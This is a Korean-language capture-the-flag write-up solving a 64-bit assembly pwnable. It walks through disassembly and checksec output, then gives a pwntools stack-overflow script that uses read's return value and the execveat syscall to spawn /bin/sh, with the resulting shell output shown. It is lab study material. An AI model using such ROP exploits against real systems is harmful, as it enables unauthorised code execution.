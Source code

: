 # 상준이가 문제 줌#4

![ScreenShot](D:\git\CTF_Writeup\s0ngsaris_study\Homework\image\sc1.JPG)  

---

문제를 풀 때 당시 64bit pwnable은 아직 익숙하지 않았다.  

일단 IDA로 해당 파일을 열어보았다.

```
.text:00000000004000B0                 xor     rax, rax
.text:00000000004000B3                 xor     rbx, rbx
.text:00000000004000B6                 xor     rcx, rcx
.text:00000000004000B9                 xor     rdx, rdx
.text:00000000004000BC                 xor     rdi, rdi
.text:00000000004000BF                 xor     rsi, rsi
.text:00000000004000C2                 xor     r8, r8
.text:00000000004000C5                 xor     r9, r9
.text:00000000004000C8                 xor     r10, r10
.text:00000000004000CB                 xor     r11, r11
.text:00000000004000CE                 xor     r12, r12
.text:00000000004000D1                 xor     r13, r13
.text:00000000004000D4                 xor     r14, r14
.text:00000000004000D7                 xor     r15, r15
.text:00000000004000DA                 xor     rbp, rbp
.text:00000000004000DD                 call    sub_4000F2
.text:00000000004000E2                 mov     eax, 3Ch
.text:00000000004000E7                 xor     rdi, rdi
.text:00000000004000EA                 xor     rsi, rsi
.text:00000000004000ED                 xor     rdx, rdx
.text:00000000004000F0                 syscall
```

젠장 끝이다... 어셈으로 짜여진 파일인것 같다.

우선 xor 연산을 통해 보이는 레지스터의 값을 모두 0으로 만든다

그리고 sub_4000F2 함수를 call 한다. 저기에 뭐가 있는지 봐야겠지?

```
4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
4000f9:       48 89 e6                mov    %rsp,%rsi
4000fc:       ba 48 01 00 00          mov    $0x148,%edx
400101:       0f 05                   syscall
```

#### ~FUCKING

0x128(296)byte 만큼의 공간을 할당한다 그리고 rsi 레지스터에 해당 값을 넣는다.

그리고 edx(rdx) 에 0x148을 넣는다. 그리고 syscall 을 통해 특정 함수를 호출한다.

자 이제 어떤 함수일까...

먼저 rax 가 0이므로 64bit systemcall number 0인 read 함수가 호출된다.

rdx 또한 0으로 초기화 되어 있고 rsi rdx 에 어떤 값이 들어가는 지 알고 있다.

이걸 대충 C언어로 바꾸면 다음과 같다.

```c
#include <stdio.h>

int main()
{
    read(0, buf, 148);
}
```
혹시 그럴리 없겠지만 syscall number를 모를 경우 디버깅을 통해 확인할 수 있다.

```
RAX  0x0
RBX  0x0
RCX  0x0
RDX  0x148
RDI  0x0
RSI  0x7fffffffe470 ◂— 0x0
R8   0x0
R9   0x0
R10  0x0
R11  0x0
R12  0x0
R13  0x0
R14  0x0
R15  0x0
RBP  0x0
RSP  0x7fffffffe470 ◂— 0x0
RIP  0x400101 ◂— syscall
─────────────────────────────────[ DISASM ]─────────────────────────
  0x4000f2    sub    rsp, 0x128
  0x4000f9    mov    rsi, rsp
  0x4000fc    mov    edx, 0x148
► 0x400101    syscall  <SYS_read>
       fd: 0x0
       buf: 0x7fffffffe470 ◂— 0x0
       nbytes: 0x148
```

흠 우선 풀기 전에 어떤 보호 기법이 적용되어 있는지 확인해볼 필요가 있다.

```
secretpack@ubuntu:~/Desktop$ pwn checksec attackme
[*] '/home/secretpack/Desktop/attackme'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
NX enable 이므로 shellcode를 쓸 수가 없다.

그렇다면 다른 방법을 강구해야 한다. 검색을 하던중 [Sigreturn을 이용한 SROP](https://www.lazenca.net/plugins/servlet/mobile?contentId=16810278#content/view/16810278)와 관련된 문서를 보게 되었다. 이를 시도 했으나 64bit에서 sigreturn 함수의 systemcall number는 15 이다. 방법이 없지는 않겠지만 내가 알고있는 선에서는 이 방법을 사용해 풀 수가 없다는 판결을 내렸다.

그리고 상준이가 문제 해결을 위한 힌트를 줬다.

```
[상준] [오후 9:58] 자
[상준] [오후 9:58] 힌트준다
[상준] [오후 9:58] 64bit에서는
[상준] [오후 9:58] execveat이라는
[상준] [오후 9:58] 엄청난 시스콜이잇다
[상준] [오후 9:59] 한번 검색해서봐라
```

##### 검색해보자!

```c
#include <unistd.h>

int execveat(int dirfd, const char *pathname,
             char *const argv[], char *const envp[], int flags);
```
인자가 엄청 많은데...

manpage 를 잘 읽어보면 이 함수를 사용하여 /bin/sh를 실행할 수 있다.

```c
execveat(0,"/bin/sh",NULL,NULL,0);
```

요롷게 들어가면 쉘이 실행된다고 한다.

혹시나!! ROPGadget을 이용해서 pop rax 가젯이 있는지 먼저 찾아봤다.

```
secretpack@ubuntu:~/Desktop$ ROPgadget --binary attackme
Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x0000000000400101 : syscall ; add rsp, 0x128 ; ret
```

역시나 없다..

read 함수의 manpage를 읽어보면 read함수는 입력받은 문자열의 길이를 return 한다고 나와있다. 함수의 리턴값은 rax 레지스터에 저장된다. 어??? 이것을 이용하여 공격을 하면 될것 같다.

execveat 함수에 들어가는 rsi는 파일 이름이고 read 함수의 rsi는 입력값이다.
그렇다면 익스플로잇 코드를 작성할때 "/bin/sh\x00"를 앞에 쓰고 그 뒤에 버퍼를 채워주면
실질적인 문자열은 /bin/sh이므로 execveat() 함수의 두번째 인자에 저 문자열을 전달 할 수 있다.

##### 2018.12.19
최종적으로 문제풀이를 완료 했다.
익스플로잇 코드를 작성하였으나 뜻대로 들어가지 않았고 본의 아니게 삽질 했다.
rdx 레지스터가 이상한 값으로 세팅되어 있어서 그랬다...

xor rdx, rdx 를 가져와 문제 풀이에 사용하였고 성공했다.

```python
from pwn import*

p = remote("./attackme")

syscall = 0x400101
zero_rdx = 0x4000ed

payload = "/bin/sh\x00"
# payload += "A" * (0x128 - 8)
payload += "A" * (0x148 - (8 * 4) - 8) # 실제로 ret 부분 앞까지 계산
payload += p64(zero_rdx)
payload += p64(syscall)
payload += "A" * (0x142 - len(payload) - 1) # execveat

p.sendline(payload)
p.interactive()
```
```
secretpack@ubuntu:~/Desktop$ python test.py
[+] Starting local process './attackme': pid 59820
[*] Switching to interactive mode
$ id
uid=1000(secretpack) gid=1000(secretpack) groups=1000(secretpack),4(adm)
$  

```
힘들었다... 당분간은 디버깅 연습을 많이 해야 겠다.
